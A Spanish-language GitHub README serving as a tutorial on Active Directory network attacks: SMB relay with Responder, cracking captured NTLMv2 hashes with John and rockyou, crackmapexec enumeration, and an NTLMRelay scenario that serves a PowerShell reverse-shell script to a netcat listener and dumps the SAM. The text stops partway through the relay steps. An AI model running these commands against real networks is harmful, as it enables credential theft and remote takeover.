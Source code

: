 - [PRIVESC](https://github.com/CYBER-Softcom/Ataques_AD/blob/main/README.md#privesc)
  - [Enumeración con BloodHound y Neo4j](https://github.com/CYBER-Softcom/Ataques_AD/blob/main/README.md#enumeraci%C3%B3n-con-bloodhound-y-neo4j)
    - [Instalación y uso de la herramienta](https://github.com/CYBER-Softcom/Ataques_AD/blob/main/README.md#instalaci%C3%B3n--y-uso-de-la-herramienta)



<br><br><br>

## Ataque SambaRelay IPv4

Por defecto SMB no está firmado. No valida la legitimidad del origen. Cuando un host se conecta a un recurso que no existe, el Responder envenena el tráfico y devuelve ese recurso. <br>
Responder: <br>

SambaRelay consigue hashes NTLMv2. No sirve para hacer PassTheHash, pero se pueden crackear los hashes por fuerza bruta.<br>


Archivo de configuración: /etc/responder/Responder.conf (Todos los parámetros en On) <br>

Comando: 
```responder -I eth0 -dw ```<br><br>

Actúa en el puerto 80. Si está ocupado: ```lsof -i :80```<br><br>

Crackear hashes: Se copia en archivo el hash completo<br>

```john wordlist /usr/share/wordlists/rockyou.txt hash.txt```<br>


### Crackmapexec

Enumerar equipos con smb active: Cme smb IP/CIDR<br>
```crackmapexec smb 192.168.1.0/24 -u 'user' -p 'passwd'```<br><br>


## NTLMRelay
Cuando un equipo tiene permisos de administrador sobre otro, se aprovecha el envenenamiento de la red para recoger la conexión, de modo que cuando se conecte a un recurso de la red que no exista, el atacante ofrece este recurso.<br>
Se realiza con Responder y NtlmRelayx. Permite dumpear la SAM del equipo. <br>

<b>Caso de uso:</b> <br>
<ul>
<li type="circle">El atacante estará compartiendo el archivo Invoke-PowerShellTCP.ps1 y la escucha con NetCat.</li> <br>
<li type="circle">Se envenena el trafico de red con Responder.</li><br>
<li type="circle">Se lanza el ntlmrelayx con el objetivo de la victima.</li><br>
<li type="circle">La victima se conecta a un recurso de red que no existe.</li><br>
<li type="circle">El atacante ofrece ese recurso de red no existente.</li><br>
<li type="circle">La victima se autentica contra el atacante, ofreciendo asi el hash NTLM.</li><br>
</ul>
<br>

<b>Configuracion de /etc/responder/Responder.conf:</b> smb Off, http Off <br><br>
<b>Paso previo:</b> Usamos cme para ver los equipos a los que podemos atacar.<br><br>
<b>Paso 1:</b><br>
```responder -I eth0 -dw ```<br>

Sabiendo el equipo al que queremos envenenar (lo vimos en el paso previo), editamos un archivo targets.txt, con la IP de dicho equipo que será el target file. Al ser generalmente Windows 10, hay que darle soporte smbv2 <br>
```
cat target.txt
[Ip de la victima]
```
```
